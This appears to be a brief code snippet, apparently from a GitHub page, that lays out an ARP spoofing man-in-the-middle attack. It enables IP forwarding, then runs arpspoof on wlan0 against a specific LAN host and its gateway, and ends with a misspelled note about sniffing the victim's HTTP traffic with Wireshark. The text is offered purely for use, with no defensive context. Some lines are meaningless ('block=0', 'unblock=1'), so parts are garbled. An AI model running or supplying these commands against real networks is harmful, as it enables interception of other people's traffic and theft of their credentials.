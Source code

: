 # arpspoof-100-

echo 1>/proc/sys/net/ipv4/ip_forward

cat /proc/sys/net/ipv4/ip_forward

block=0
unblock=1

arpspoof -i wlan0 -t 192.168.0.6 -r 192.168.0.1

wirsher tool into http hacked

